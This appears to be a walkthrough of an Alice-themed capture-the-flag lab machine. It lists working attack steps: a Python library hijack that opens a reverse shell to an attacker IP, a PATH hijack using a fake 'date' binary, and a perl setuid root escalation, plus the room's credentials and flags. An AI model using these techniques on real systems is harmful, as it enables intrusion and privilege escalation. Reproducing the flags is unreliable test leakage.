 
We start by enumerating the machine with a classic nmap scan:

	nmap  10.10.43.29

output:

	ports	service
	22		ssh
	80		http

we visit the site and we start a dir enum in the background:

	gobuster dir -u http://10.10.43.29/ -w /usr/share/worldist/dirbuster/dir-list-medium ...

output:

	/img
	/r

there are also some images to downloads but they are just rabbit holes to distract u
the /r seems kinda odd so we keep digging the rubbit hole (as the machine is theamed) so we keep enum the directory so we find:

	/a
	/b
	...
we identify a pattern so i shoot my shot and i try searching for

	http://10.10.43.29/r/a/b/b/i/t/

at the end we find an html file with a user and a password in the source code:

	alice:HowDothTheLittleCrocodileImproveHisShiningTail

we can try those creds in ssh:

	ssh 10.10.43.29
	password:HowDothTheLittleCrocodileImproveHisShiningTail  

we find a root.txt in alice /home directory but off course we cant "cat" it so we need to keep digging:
i tried to see alice permissions with:

	sudo -l

output:

	(rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 

this means that we can run the script in alice's /home dir; in the script its imported the random library; maybe we can try to fake the library with one of our script so the user rabbit can execute our rev shell:

	random.py

	import sys
	import socket
	import os
	import pty

	def choice(d):
			s=socket.socket();s.connect(("10.8.79.118",int(5555)));
			[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
			pty.spawn("/bin/bash")
			return "ciao"

with this script we get a call back to our nc listener:

	nc -lvnp 5555

so now we got the rabbit shell.
inside rabbit's home directory we find a teaParty, its an ELF 32 bits exe with suid bit on, we analyze the ELF on ghidra and we se this:

	setuid(0x3eb);
	setgid(0x3eb);
	puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
	system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");
	puts("Ask very nicely, and I will give you some tea while you wait for him");
	getchar();
	puts("Segmentation fault (core dumped)");
	return;

the script print the date dinamically by calling the "date" binary, so we can change the $PATH env variable so we can create our own date file to execute as hatter, the next user:

	export PATH=/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

now we create the date file and mark it as executable:

	echo "/bin/bash" > date
	chmod +x date

now we can run the script and get a shell with hatter:

	./teaParty

Now we are hatter and we can try launch linpeas.sh to enumerate hatter privilage:
we find perl suid so we can execute perl rev shell

	perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

now we are root and we can cat the root.txt that is in the root folder (funny joke for the rabbit hole reverse)

	cd /home/alice
	cat root.txt
	thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}

and then we go to /root directory and we cat the user.txt:
	
	cd /root
	cat user.txt
	thm{"Curiouser and curiouser!"}

and The machine is done!!
